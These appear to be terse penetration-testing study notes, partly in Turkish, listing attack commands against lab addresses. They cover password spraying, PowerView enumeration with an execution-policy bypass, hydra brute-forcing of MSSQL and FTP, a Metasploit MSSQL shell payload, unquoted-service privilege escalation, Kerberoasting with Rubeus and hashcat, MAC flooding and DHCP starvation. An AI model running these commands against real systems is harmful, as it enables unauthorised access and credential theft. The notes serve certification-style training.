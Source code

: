 ### Password spray crack Crackmapexec

**Command cme crack** : cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "pass" 

### Post enum Powerview

**powershell -EP Bypass** exec disabled
target machine in poweview.ps1 download >>  Import-Module .\PowerView.ps1 >> 

**Powerview command: Get-NetGroup,** **Get-NetUser,Get-NetComputer,Invoke-ShareFinder**

### MSSQL Attack

nmap ip scan ouput sql server detect 

**mssql attack command:** hydra -L user.txt -P /root/ADtools/rockyou.txt İpadres mssql

**found password** “pass”>> python3 /root/impacket/examples/mssqlclient.py DC.com/SQL_rv:pass@10.10.1.30 -port 1433  -windows-auth >>” SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';  “
**sql serverda meterprter shell için:** msf console use exploit/windows/mssql/mssql_payload 
kullanıcı ad parola bilgisini ve veritabanı ismini master gir sonra exploit komutu ile çalıştır.

### Priv esc

winpeas download target pc  >> C:\Program Files\Services that is unquoted and can be exploited for >> msfvenom file exe

### Kerberoasting Attack

**Command rubues kerber attack**: rubeus.exe kerberoast /outfile:hash.txt

**obtain hash crack:** hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt

### FTP BRUTE

hydra -l username -P pass.txt ftp://ipadres


# Malware threats & Sniff

**Static analysis tools**

DIE,IDA(subroutine function ),Hybrid analysis

**Dynamic analysis**

TCPView,cports.exe,Procmon

## SNİFFER

**mac flood command: macof -i eth0 -n 10 -d ip adres**

**DHCP STARVATİON attack:** sudo yersinia -I >> f2 and X and 1  key >> (wirehark capture dhcp )
